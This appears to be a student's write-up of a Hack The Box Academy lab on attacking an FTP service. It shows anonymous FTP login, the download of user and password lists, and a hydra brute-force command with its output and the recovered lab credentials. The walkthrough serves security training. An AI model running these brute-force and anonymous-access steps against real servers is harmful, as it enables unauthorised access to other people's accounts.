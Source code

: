 ### Attacking FTP

1.  What port is the FTP service running on?

Do nmap scan and see that it is 2121

2.  What username is available for the FTP server?

First things first we need to try logging in as anonymous:
```c
ftp -P 2121 anonymous@10.129.203.6
Connected to 10.129.203.6.
ls
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22514|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list

```

Then download both lists using get users.list and get passwords.list
Then open the users.list and try putting all the usernames to the htb-academy answer box until it gives correct

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

Then we can try bruteforcing with hydra for password, not medusa, cuz it takes longer:
```c
hydra -l robin -P /home/r3so1ve/hack/htb-academy/attacking-common-services/passwords.list ftp://10.129.203.6:2121 -t 10

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-25 22:24:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 250 login tries (l:1/p:250), ~25 tries per task
[DATA] attacking ftp://10.129.203.6:2121/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 150 to do in 00:02h, 10 active
[2121][ftp] host: 10.129.203.6   login: robin   password: 7iz4rnckjsduza7
1 of 1 target successfully completed, 1 valid password found

```

As we now the creds now:
```
username: robin
password: 7iz4rnckjsduza7
```
